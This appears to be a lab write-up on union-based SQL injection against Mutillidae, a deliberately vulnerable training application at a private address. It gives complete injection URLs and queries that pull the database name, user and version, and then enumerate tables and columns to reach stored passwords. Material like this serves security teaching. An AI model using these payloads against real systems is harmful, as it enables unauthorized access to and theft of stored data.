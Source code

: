 
http://192.168.203.1/mutillidae/index.php?page=user-info.php&username=thiru2%27union%20select%201,2,3,4,5%23&password=&user-info-php-submit-button=View+Account+Details

Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.


http://192.168.203.1/mutillidae/index.php?page=user-info.php&username=thiru2%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

## OUTPUT :
![Alt text](img/20.png)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5.
In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one:
union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’


The url once executed will  retrieve table names from the “owasp 10” database.
##Extracting sensitive data such as passwords 

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).
